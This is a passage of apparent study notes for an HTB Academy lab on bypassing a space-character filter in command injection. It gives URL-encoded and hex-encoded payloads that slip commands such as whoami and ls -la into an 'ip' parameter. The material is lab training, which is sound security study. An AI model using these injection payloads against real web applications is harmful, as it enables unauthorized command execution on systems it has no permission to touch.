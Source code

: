 ### Method 7: Hex Encoding

**Technique:** Use hex encoding with printf

```bash
# Create space using printf
printf "\x20"

# Execute command with hex-encoded space
printf "ls\x20-la" | sh

# Web application usage
ip=127.0.0.1%0aprintf${IFS}"ls\x20-la"|sh
```

### Method 8: Alternative Separators

**Extended Whitespace Characters:**
```bash
\t    → %09    → Tab
\n    → %0a    → Newline  
\r    → %0d    → Carriage return
\v    → %0b    → Vertical tab
\f    → %0c    → Form feed
```

**Testing Extended Characters:**
```http
# Vertical tab
ip=127.0.0.1%0awhoami%0bls

# Form feed  
ip=127.0.0.1%0awhoami%0cls

# Combined separators
ip=127.0.0.1%0awhoami%09%0als
```

---

## HTB Academy Lab Solution

### Challenge Requirements

**Task:** Execute the command `ls -la` and find the size of `index.php` file.

**Known Constraints:**
- Newline (`\n`/`%0a`) injection operator works
- Space characters are blacklisted
- Need to bypass space in `ls -la`

### Solution Approaches

**Method 1: Tab Character Bypass**
```http
ip=127.0.0.1%0als%09-la
```
